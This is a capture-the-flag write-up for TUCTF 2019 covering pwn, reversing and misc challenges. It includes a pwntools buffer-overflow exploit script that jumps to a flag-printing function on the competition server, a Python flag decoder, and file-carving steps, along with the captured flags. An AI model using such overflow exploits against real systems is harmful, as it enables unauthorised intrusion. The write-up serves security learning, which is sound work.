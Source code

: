 ```yaml
---
layout: post
title: TUCTF 2019
---
```


Introduction
------

Should really be studying for upcoming test.  

---

Pwn
------
#### The First

Running `info functions` in gdb, we see that there is a `printFlag` function. Just overflow the buffer and jump to the function to get the flag. Exploit script is as follows, 

```
from pwn import *

payload = 'A'*24+'\xf6\x91\x04\x08'

r = remote('chal.tuctf.com', 30508)

r.recvuntil('>')
r.send(payload)
r.interactive()
```



Reversing
------
#### Object

Decompile in ghidra and reconstructed the program in python.

```
password=[0xfd, 0xff, 0xd3, 0xfd, 0xd9, 0xa3, 0x93, 0x35, 0x89, 0x39, 0xb1, 0x3d, 0x3b, 0xbf, 0x8d, 0x3d, 0x3b, 0x37, 0x35, 0x89, 0x3f, 0xeb, 0x35, 0x89, 0xeb, 0x91, 0xb1, 0x33, 0x3d, 0x83, 0x37, 0x89, 0x39, 0xeb, 0x3b, 0x85, 0x37, 0x3f, 0xeb, 0x99, 0x8d, 0x3d, 0x39, 0xaf, 0x00]
flag=''
for i in range(len(password)):
	c = password[i]
	flag+= chr(((c^255)^0xaa)>>1)
print flag
```

Flag: `TUCTF{c0n6r47ul4710n5_0n_br34k1n6_7h15_fl46}`




Misc
------
#### Onions

We are given an image. Naturally, the first thing I did was inspect the image exif for anything that stands out. But there's nothing special to be seen there. Tried running `foremost` on the file to extract hidden files, no result either. Running `binwalk` we get, 

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
275566        0x4346E         7-zip archive data, version 0.4

```

Since foremost couldn't extract the file, maybe `binwalk -e` can. No result... 

In that case, lets just straight up unzip the image with `7z e shrek.jpg`. That surprisingly worked... Now we just continue unzipping the archives that pop out until we get the flag. 

Flag: `TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}`


#### Super Secret

We are given an ODT file. When trying to open it, LibreOffice asks us if we want to enable macros. Hmm.. maybe there's something there. To further inspect the file, we unzip it and we see a suspicious file `flag.xml`, and in it lies our flag.

Flag: `TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}`